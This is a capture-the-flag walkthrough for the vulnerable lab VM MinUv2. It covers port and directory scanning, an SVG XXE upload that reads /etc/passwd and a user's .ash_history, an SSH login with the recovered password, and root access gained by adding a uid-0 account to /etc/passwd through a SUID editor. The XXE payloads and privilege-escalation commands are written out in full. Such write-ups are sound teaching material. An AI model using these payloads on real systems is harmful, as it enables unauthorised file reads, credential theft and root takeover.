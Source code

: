 MinUv2

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Contente Discovery - searching for a specific file .html
[+] SVG exploitation with XXE

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.110
Host is up (0.00037s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 82:33:25:61:27:97:ea:4a:49:f5:76:a3:33:1c:ae:2b (RSA)
|   256 ed:ca:f6:b9:b5:39:32:89:d0:a3:36:94:82:04:4a:e8 (ECDSA)
|_  256 26:79:15:2e:be:93:02:41:04:c9:ea:e8:05:16:d1:83 (ED25519)
3306/tcp open  mysql?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain
|     Transfer-Encoding: chunked
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     X-Powered-By: Kemal
|     Content-Type: text/html
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <style type="text/css">
|     body { text-align:center;font-family:helvetica,arial;font-size:22px;
|     color:#888;margin:20px}
|     max-width: 579px; width: 100%; }
|     {margin:0 auto;width:500px;text-align:left}
|     </style>
|     </head>
|     <body>
|     <h2>Kemal doesn't know this way.</h2>
|_    <svg id="svg" version="1.1" width="400" height="400" viewBox="0 0 400 400" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" ><g id="svgg"><path id="path0" d="M262.800 99.200 L 262.800 150.400 265.461 150.400 L 268.121 150.400 267.864 144.300 C 267.722 140.945,267.510 120.110,267.391 98.000 C 267.273 75.890,267.074 55.595,266.948 52.900 L 266.719 48.000 264.760 48.000 L 262.800 48.000 262.800 99.200 M160.800 290.800 C 160.800 291.301,161.224 291.301,162.000
|_mysql-info: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb http://192.68.56.110:3306

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# dirb http://192.168.56.110:3306 -X .html


-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov  5 09:22:57 2019
URL_BASE: http://192.168.56.110:3306/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.html) | (.html) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.110:3306/ ----
+ http://192.168.56.110:3306/upload.html (CODE:200|SIZE:908)                   
                                                                               
-
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We can upload a SVG file


SVG XXE AttacK
https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat file.svg 
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="500px" height="40px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&xxe;</svg>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Uploading the file to the server and we get the content of /etc/passwd




Retrieving employee .ash_history

Payload:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat getConent.svg 
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///home/employee/.ash_history" > ]><svg width="500px" height="40px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&xxe;</svg>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After upoading we get the password


Connecting to the server:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh employee@192.168.56.110
The authenticity of host '192.168.56.110 (192.168.56.110)' can't be established.
ECDSA key fingerprint is SHA256:yDEwMAaye9gQ8q+xTLQxriV2ww9YRUYoGqvsqtXbskI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.110' (ECDSA) to the list of known hosts.
employee@192.168.56.110's password: 
        _                   ____  
  /\/\ (_)_ __  /\ /\__   _|___ \ 
 /    \| | '_ \/ / \ \ \ / / __) |
/ /\/\ \ | | | \ \_/ /\ V / / __/ 
\/    \/_|_| |_|\___/  \_/ |_____|


minuv2:~$ id
uid=1000(employee) gid=1000(employee) groups=1000(employee)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
minuv2:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/micro
/bin/bbsuid
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We are going to use micro (editor) to get root on the system
This is basic privilege escalation with editor. In ordet to escalate the privileges we edit /etc/passwd by adding a user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# openssl passwd -1 -salt SALT admin123
$1$SALT$bvxkiSQK0rSue1A6i7lUj0



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Create a record in /etc/passwd and add the following user into it:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus:$1$SALT$bvxkiSQK0rSue1A6i7lUj0:0:0:root:root:/bin/ashh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Opening /etc/passwd with micro

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
minuv2:~$ cat /etc/passwd | micro

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Adding the user test into /etc/passwd



Privilege escalation to root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
minuv2:~$ su setrus
Password: 
minuv2:/home/employee# id
uid=0(root) gid=0(root) groups=0(root)
minuv2:/home/employee# cd /root
minuv2:~# ls
flag.txt
minuv2:~# cat flag.txt
        _                   ____  
  /\/\ (_)_ __  /\ /\__   _|___ \ 
 /    \| | '_ \/ / \ \ \ / / __) |
/ /\/\ \ | | | \ \_/ /\ V / / __/ 
\/    \/_|_| |_|\___/  \_/ |_____|

# You got r00t!

 flag{6d696e75326973617765736f6d65}

# I hope you had fun hacking this box, I tried to design this VM to be (a bit) different
# by having newer or not-so-common technologies and a minumal linux install.
#
# Please don't post the content below on Social Networks to let others do the challenge.
#
# As you know by now, the entry point is an XXE vulnerability that can be exploited by
# modifying an image. After that you can enumerate a user and the linux version to know
# that it uses a different file in its home dir.
# To read this you used a suspicious file permission on certain text editor.
# At least that's how it was planned ;)
# Let me know if you got here using another method!
#
# contact@8bitsec.io
# @_8bitsec

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

